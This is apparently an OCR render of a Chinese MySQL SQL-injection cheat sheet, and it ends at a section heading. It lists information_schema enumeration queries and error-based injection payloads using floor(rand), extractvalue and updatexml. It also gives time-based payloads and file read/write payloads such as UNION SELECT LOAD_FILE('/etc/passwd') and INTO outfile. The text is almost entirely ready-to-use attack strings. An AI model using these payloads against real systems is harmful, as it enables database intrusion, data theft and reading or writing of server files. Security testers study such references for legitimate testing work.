 	#列举 columns_priv
	SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;
列举数据库

	#当前库
	SELECT database();
	
	#所有库 (Mysql>5.0)
	SELECT schema_name FROM information_schema.schemata;
列举表名

	#常规
	SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
	
	#根据列名找表名
	SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username';
列举字段名

	SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

单条数据获取

	SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0;

	SELECT host,user FROM user ORDER BY host LIMIT 0,1;
显错注入

	#方式1
	and (select 1 from (select count(*),concat(SQL语句,floor(rand(0)*2))x from information_schema.tables group by x)a);
	
	#方式2
	and (select count(*) from (select 1 union select null union select !1)x group by concat(sql语句,floor(rand(0)*2)));
	
	#方式3
	and extractvalue(1, concat(0x5c, (SQL语句)));
	
	#方式4
	and 1=(updatexml(1,concat(0x5e24,(SQL语句),0x5e24),1));
延时注入

	SELECT BENCHMARK(1000000,MD5('A'));
	
	SELECT SLEEP(5); # >= 5.0.12
文件读写

	#读取文件，需要相关权限
	UNION SELECT LOAD_FILE('/etc/passwd')
	
	#写入文件，需要相关权限
	SELECT * FROM mytable INTO dumpfile '/tmp/somefile'
	
	#写入文件，需要相关权限
	SELECT * FROM mytable INTO outfile '/tmp/somefile'
判断及字符串相关
